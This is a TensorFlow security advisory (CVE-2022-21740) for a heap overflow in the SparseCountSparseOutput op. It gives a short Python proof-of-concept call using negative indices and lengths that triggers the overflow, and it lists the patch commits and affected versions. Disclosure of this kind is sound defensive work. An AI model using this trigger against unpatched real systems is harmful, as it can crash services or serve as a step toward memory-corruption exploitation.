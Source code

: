 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2022-020.md
## TFSA-2022-020: Heap overflow in `SparseCountSparseOutput`

### CVE Number
CVE-2022-21740

### Impact
The [implementation of `SparseCountSparseOutput`](https://github.com/tensorflow/tensorflow/blob/5100e359aef5c8021f2e71c7b986420b85ce7b3d/tensorflow/core/kernels/count_ops.cc#L168-L273) is vulnerable to a heap overflow:

```python
import tensorflow as tf
import numpy as np

tf.raw_ops.SparseCountSparseOutput(
  indices=[[-1,-1]],
  values=[2],
  dense_shape=[1, 1],
  weights=[1],
  binary_output=True,
  minlength=-1,
  maxlength=-1,
  name=None)
```

### Patches
We have patched the issue in GitHub commits [2b7100d6cdff36aa21010a82269bc05a6d1cc74a](https://github.com/tensorflow/tensorflow/commit/2b7100d6cdff36aa21010a82269bc05a6d1cc74a) and [adbbabdb0d3abb3cdeac69e38a96de1d678b24b3](https://github.com/tensorflow/tensorflow/commit/adbbabdb0d3abb3cdeac69e38a96de1d678b24b3).

The fix will be included in TensorFlow 2.8.0. We will also cherrypick this commit on TensorFlow 2.7.1, TensorFlow 2.6.3, and TensorFlow 2.5.3, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by Faysal Hossain Shezan from University of Virginia.
